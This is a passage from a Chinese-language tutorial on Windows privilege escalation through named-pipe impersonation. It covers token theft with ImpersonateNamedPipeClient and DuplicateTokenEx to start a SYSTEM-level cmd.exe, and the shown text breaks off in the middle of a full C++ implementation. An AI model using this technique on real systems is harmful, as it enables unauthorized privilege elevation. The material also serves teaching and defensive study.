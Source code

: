 命名管道是支持模拟客户端权限的，为此我们需要利用到 ImpersonateNamedPipeClient 这个 API 去指定模拟高权限的句柄，此 API 调用完成之后 windows 将自动替换客户端的 access token 到我们服务端，这一个特性将导致后续一系列的提权技术，后续的技术都是围绕怎么样让具备高权限的进程向我们的进程发起认证请求：

```bash
ImpersonateNamedPipeClient(hPipe);
```

一旦完成模拟操作，我们当前进程的线程就有了客户端的高权限令牌，拿到这个令牌可以使用 OpenThreadToken 拿到

```bash
HANDLE hToken;
OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hToken)
```

一旦 hToken 就位，我们使用 DuplicateTokenEx 函数复制一个已经存在的访问令牌，这个函数可以创建主令牌和模拟令牌

```bash
HANDLE hSystemTokenDup = INVALID_HANDLE_VALUE;
DuplicateTokenEx(hToken, 
                 TOKEN_ALL_ACCESS, 
                 NULL, SecurityImpersonation, TokenPrimary, &hSystemTokenDup)
```

为了让权限的变化更加明显，我们使用这个高权限的 token 创建一个新的 cmd.exe 进程，成功完成提权：

```bash
wchar_t  cmd[] = L"C:\\Windows\\system32\\cmd.exe";
CreateProcessWithTokenW(hSystemTokenDup, 
    LOGON_WITH_PROFILE, NULL, cmd, 0x00000400, NULL, NULL, &si, &pi) == false)
```

完整实现和演示效果

```bash
#include <Windows.h>
#include <iostream>
#include <vector>
#include <sddl.h>

int main() {
    using namespace std;

    wchar_t  cmd[] = L"C:\\Windows\\system32\\cmd.exe";
    const char pipename[] = "\\\\.\\pipe\\endlessparadox";

    //SECURITY_ATTRIBUTES sa = { 0 };
    //SECURITY_DESCRIPTOR sd = { 0 };

    //wchar_t message[] = L"misaki";

    //InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION);
    //ConvertStringSecurityDescriptorToSecurityDescriptor(L"D:(A;OICI;GA;;;WD)", SDDL_REVISION_1, &((&sa)->lpSecurityDescriptor), NULL);

    HANDLE NamedPipehandle = CreateNamedPipeA(pipename,
        PIPE_ACCESS_DUPLEX,
        PIPE_TYPE_BYTE | PIPE_WAIT,
        10,
        2048,2048,0, NULL);
    if (NamedPipehandle == NULL) {
        cout << "NamedPipehandle " << GetLastError() << endl;
        getchar();
    }

    if (ConnectNamedPipe(NamedPipehandle, NULL) == false) {
        cout << "ConnectNamedPipe " << GetLastError() << endl;
        getchar();
    }

```